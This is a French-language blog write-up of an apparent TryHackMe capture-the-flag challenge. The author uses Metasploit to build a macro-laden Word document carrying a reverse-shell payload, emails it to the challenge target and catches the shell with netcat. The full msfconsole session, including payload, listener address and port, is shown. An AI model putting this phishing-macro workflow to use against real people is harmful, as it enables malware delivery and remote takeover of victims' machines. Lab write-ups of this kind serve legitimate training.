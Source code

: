 ```yaml
---
title: TryHackMe - Ghost Phishing
date: 2025-03-24 17:46:19 -0400
description: Dans le cadre du HackfinityBattle, un événement organisé par TryHackMe, ce challenge de cybersécurité m’a demandé de simuler une attaque Red Team en exploitant une vulnérabilité liée à l’ouverture d’un document Microsoft Word. L’objectif était de créer un document Word malveillant contenant une macro, capable d’exécuter une charge utile (payload) à l’ouverture, et de l’envoyer à la cible, cipher@darknetmail.corp, en s’assurant qu’elle l’ouvre pour établir une connexion à distance. Ce défi, proposé par TryHackMe, visait à tester mes compétences en Red Team, notamment en génération de payloads avec Metasploit, en création de documents malveillants via des macros, en ingénierie sociale pour inciter la cible à ouvrir le fichier, et en gestion de sessions à distance dans un environnement contrôlé.
categories: [TryHackMe]
tags: [THM, CTFs, Hacking, macro, word, msfconsole]
image:
    path: https://i.ibb.co/fY9ysQ9r/gh.png
---
```



- **[The Best Academy to Learn Hacking](https://referral.hackthebox.com/mz6xj5g)**.
- **[Beginner Friendly challenges on TryHackMe](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)**.


<h2 style="color: orange;">Description</h2>
Nous avons réussi à accéder à l'e-mail de **DarkSpecter**, et cette fuite contient un lien direct avec les dernières opérations de **Cipher**. Les échanges chiffrés contiennent des renseignements précieux : des informations sur les attaques récentes, les systèmes compromis et les cibles potentielles. Cela pourrait être notre meilleure chance de prévoir les prochaines actions de Cipher et de démanteler définitivement son réseau.

<h2 style="color: orange;">Resolution</h2>
D'abord, je me suis connecté à l'adresse email fournie dans le cadre du challenge pour analyser les communications et mieux comprendre les attentes. 

![Email](https://i.ibb.co/wFvmjr51/r.png)

Ici, comme on le constate, pour faire un briefing, `cipher@darknetmail.corp` demande à `specter@darknetmail.corp` de lui fournir un rapport détaillé sur une opération récente. Le message, envoyé le **1er mars 2025**, mentionne des préoccupations suite à une attaque et insiste sur l’urgence de recevoir un rapport complet, incluant les méthodologies, les outils utilisés et les anomalies rencontrées. L’email précise également que le rapport doit être envoyé directement via ce canal.

En analysant ce message, j’ai compris que l’objectif était de créer un **document Word** avec une **macro** malveillante pour répondre à cette demande, en y intégrant une charge utile (payload) qui s’exécuterait à l’ouverture du fichier par la cible, `cipher@darknetmail`.corp. Pour ce faire, j’ai décidé de générer un payload en utilisant `msfconsole`, l’interface de Metasploit, afin de concevoir une attaque efficace.



Avant de commencer, j’ai vérifié la disponibilité d’un module adapté pour une attaque par **macro** sur ma version de `Kali Linux`. J’ai utilisé `searchsploit` pour rechercher des exploits liés aux macros :



```console
$ searchsploit macro
```

![Result](https://i.ibb.co/bggq4rm6/r-1.png)

Le résultat m’a montré plusieurs options, et j’ai décidé de sélectionner le premier exploit disponible : `LibreOffice < 6.0.7 / 6.1.3 - Macro Code Execution`. Cependant, pour ce challenge, j’ai utilisé un module `Metasploit` spécifique pour **Microsoft Word**. J’ai donc lancé `msfconsole` et configuré l’exploit comme suit :

```console
$ msf6 > use exploit/multi/fileformat/office_word_macro
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
$ msf6 exploit(multi/fileformat/office_word_macro) > set payload windows/shell_reverse_tcp 
payload => windows/shell_reverse_tcp
$ msf6 exploit(multi/fileformat/office_word_macro) > set lhost tun0 
lhost => 10.6.8.193
$ msf6 exploit(multi/fileformat/office_word_macro) > set lport 1337
lport => 1337
$ msf6 exploit(multi/fileformat/office_word_macro) > set filename hacked.docm
filename => hacked.docm
$ msf6 exploit(multi/fileformat/office_word_macro) > run
[*] Using template: /usr/share/metasploit-framework/data/exploits/office_word_macro/template.docx
[*] Injecting payload in document comments
[*] Injecting macro and other required files in document
[*] Finalizing docm: hacked.docm
[+] hacked.docm stored at /home/bloman/.msf4/local/hacked.docm
```

Le module a généré avec succès un **document Word** malveillant nommé `hacked.docm`, contenant une **macro** qui exécutera le payload à l’ouverture. Ensuite, j’ai mis en place un listener avec `netcat` pour recevoir la connexion une fois que la cible ouvrirait le document

J’ai ensuite envoyé le document `hacked.docm` à `cipher@darknetmail.corp` via l’interface email.

![check](https://i.ibb.co/vxwNw5H6/hacked.png)

Quelques minutes plus tard, la cible a ouvert le document, ce qui a déclenché l’exécution de la **macro**. Cela m’a permis d’établir une connexion à distance et de prendre le contrôle de la machine de la cible :

![Hacked](https://i.ibb.co/ZRsnB6bM/r-hacked.png)






<h2 style="color: orange;">Ressources supplementaires</h2>
Voici quelques ressources supplémentaires qui pourraient vous être utiles :
- [Rapid7 Macro](https://www.rapid7.com/db/modules/exploit/multi/fileformat/office_word_macro/)
- [Medium](https://medium.com/@calvintconnor/how-to-make-a-reverse-shell-with-microsoft-word-macros-94797534ffb3)
- **Love my artciles?** Follow me on [Twitter](https://x.com/@bloman19) and [Github](https://github.com/0xabdoulaye) 
- [Join Us on Discord](https://discord.gg/wBT9wr9ruG).
